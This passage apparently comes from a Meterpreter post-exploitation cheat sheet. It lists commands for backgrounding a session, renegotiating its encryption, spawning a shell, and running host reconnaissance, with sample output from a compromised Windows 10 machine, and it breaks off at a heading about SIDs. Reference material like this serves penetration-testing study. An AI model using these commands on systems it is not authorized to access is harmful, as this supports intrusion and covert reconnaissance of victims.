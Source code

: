 ##### 2.1.2.8 - Background

```
meterpreter > background
[*] Backgrounding session 1...
```

##### 2.1.2.9 - Re-encrypt key

* **(Re)negotiate TLV packets for encryption**

```
meterpreter > secure
[*] Negotiating new encryption key ...
[+] Done.
```

##### 2.1.2.10 - Spawn Interactive Shell

* **Windows**

`meterpreter > shell`

* **Linux**

`meterpreter > shell -t`

#### 2.1.3 - Internal Reconnaissance

##### 2.1.3.1 - System

* **Show hardware information of the host**

```
meterpreter > sysinfo
Computer        : DEFALT
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

* **Retrieve UUID**

`meterpreter > uuid`

* **Get current session ID**

`meterpreter > machine_id`

* **Discover Username**
 
```
meterpreter > getuid
Server username: Defalt\Winpwn10
```

* **Discover SID**
